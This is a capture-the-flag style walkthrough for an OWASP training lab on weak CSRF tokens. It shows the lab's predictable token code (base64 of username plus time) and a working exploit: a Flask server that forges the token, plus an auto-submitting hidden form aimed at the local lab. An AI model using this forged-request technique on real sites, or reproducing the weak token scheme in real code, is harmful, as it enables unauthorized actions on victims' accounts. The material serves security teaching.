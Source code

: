 # CSRF - Weak

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:csrf-weak
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:csrf-weak
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim's behalf. For most sites, browser requests automatically include any credentials associated with the site, such as the user's session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the attacker and a legitimate request sent by the victim.

CSRF attacks target functionality that causes a state change / data mutation on the server, such as changing the victim's email address or password, or purchasing something. Forcing the victim to retrieve data doesn't benefit an attacker because the attacker doesn't receive the response, the victim does. As such, CSRF attacks target state-changing requests.

It's sometimes possible to store the CSRF attack on the vulnerable site itself. Such vulnerabilities are called "stored CSRF flaws". This can be accomplished by simply storing an IMG or IFRAME tag in a field that accepts HTML, or by a more complex cross-site scripting attack. If the attack can store a CSRF attack in the site, the severity of the attack is amplified. In particular, the likelihood is increased because the victim is more likely to view the page containing the attack than some random page on the Internet. The likelihood is also increased because the victim is sure to be authenticated to the site already.

Lets start the application and login with the default credentials.

```
username : admin
password: admin
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/CSRF-Weak/1.png)

When we are loggedin to the application we can see that we can set our favorite color and this will be stored in the session of the user.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/CSRF-Weak/2.png)

If we inspect the request with an intercepting proxy we can see that the application is performing a POST request that results in a data mutation, storing our favorite color into the session of the user and displaying this back to the user in the HTML website.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/CSRF-Weak/3.png)

Also we can see that the application is using a csrf_token

```html
<form method="post" action="/update">
  <input
    type="hidden"
    class="form-control"
    name="csrf_token"
    value="{% autoescape true %}{{csrf_token}}{% endautoescape %}"
  />
  <input
    type="text"
    class="form-control"
    name="color"
    placeholder="favorite color"
  /><br />
  <button class="btn btn-primary" type="submit">Submit Button</button>
</form>
```

Looks like it's Base64 encoded, let's first decoded the URL-encoded format then base64 decode:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/CSRF-Weak/4.png)

The csrf token is simply username + time.

Checking the application code we can how this csrf_token is being implemented.

```
    time = strftime("%H:%M", gmtime())
    csrf = request.form['username'] + time
    session['csrf_token'] = base64.b64encode(csrf.encode())
    csrf_token = str(session['csrf_token'], 'utf-8')
```

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from and sending the weak csrf_token with. We could achieve this by creating the following python flask application:

```python
import base64
from time import gmtime, strftime
from flask import Flask, request, url_for, render_template, redirect, make_response

app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    time = strftime("%H:%M", gmtime())
    csrf = "admin" + time
    csrf_raw = base64.b64encode(csrf.encode())
    csrf_token = str(csrf_raw, 'utf-8')
    return render_template("evil.html", csrf_token = csrf_token)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; evil_server.py and run the commands below to install some dependencies.

```text
$ pip3 install flask
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form
  method="POST"
  action="http://localhost:5000/update"
  target="csrf-frame"
  id="csrf-form"
>
  <input type="hidden" name="color" value="Hackzord!" />
  <input
    type="hidden"
    name="csrf_token"
    value="{% autoescape true %}{{csrf_token}}{% endautoescape %}"
  />
  <input type="submit" value="submit" />
</form>
<script>
  document.getElementById("csrf-form").submit();
</script>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python3 evil_server.py
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```text
http://localhost:1337/
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/CSRF-Weak/5.png)

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from and we have our forged csrf_token with the request.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/CSRF-Weak/6.png)

Also when we refresh the original page of the application we can see that the new vaulue has been replaced with the content of our evil app.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/CSRF-Weak/7.png)

## Additional sources

{% embed url="https://owasp.org/www-community/attacks/csrf" %}
